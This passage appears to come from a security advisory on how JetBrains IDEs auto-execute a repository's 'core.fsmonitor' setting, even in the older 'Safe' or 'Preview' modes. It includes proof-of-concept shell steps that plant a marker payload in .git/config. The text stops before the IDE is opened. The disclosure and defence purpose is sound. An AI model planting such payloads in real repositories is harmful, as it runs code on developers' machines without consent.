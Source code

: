 All of these IDEs opportunistically parse a `.git` directory to provide Git functionality, and hence all of these IDEs can be tricked into executing a malicious `core.fsmonitor` payload.

Some of the JetBrains IDEs, prior to the introduction of Project Security, had a concept of "Safe" or "Preview" modes. If you opened a directory for which the product normally supports auto-executing commands or build scripts, it would prompt if you wish to open the directory in a mode that does not execute these startup items.

For example:

* IDEA offered this if a file named `build.gradle` exists in the directory
* CLion offered this if a file named `CMakeLists.txt` exists in the directory
* Rubymine offered this if a file named `Gemfile` exists in the directory

Note that this list is not necessarily exhaustive.

Until the introduction of Project Security, these modes did not disable Git integration. That is to say, even if the user chose not to trust the project given such a dialog in a JetBrains IDE prior to version 2021.3.1, `core.fsmonitor` payloads would still fire automatically.

### JetBrains IDEs POC

Create an empty Git repo:

```plain
% cd $(mktemp -d)

% mkdir poc

% git -C poc init
Initialized empty Git repository in /tmp/tmp.lH15HBm16d/poc/.git/
```

Modify its `.git/config` to have a malicious `core.fsmonitor` value:

```plain
user@7e031ffb2f03:/tmp/tmp.GnAV27DcXj$ echo $'\tfsmonitor = "echo \\"Pwned as $(id)\\">/tmp/win; false"' >> poc/.git/config

% echo $'\tfsmonitor = "echo \\"Pwned as $(id)\\">/tmp/win; false"' >> poc/.git/config
% cat poc/.git/config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
	fsmonitor = "echo \"Pwned as $(id)\">/tmp/win; false"
```

`touch` various files that trigger the "Safe" or "Preview" modes described above:

```plain
% touch poc/{build.gradle,CMakeLists.txt,Gemfile}

% ls -la poc
total 12
drwxr-xr-x 3 justin justin 4096 Aug 13 15:11 .
drwx------ 3 justin justin 4096 Aug 13 15:10 ..
drwxr-xr-x 7 justin justin 4096 Aug 13 15:10 .git
-rw-r--r-- 1 justin justin    0 Aug 13 15:11 CMakeLists.txt
-rw-r--r-- 1 justin justin    0 Aug 13 15:11 Gemfile
-rw-r--r-- 1 justin justin    0 Aug 13 15:11 build.gradle
```
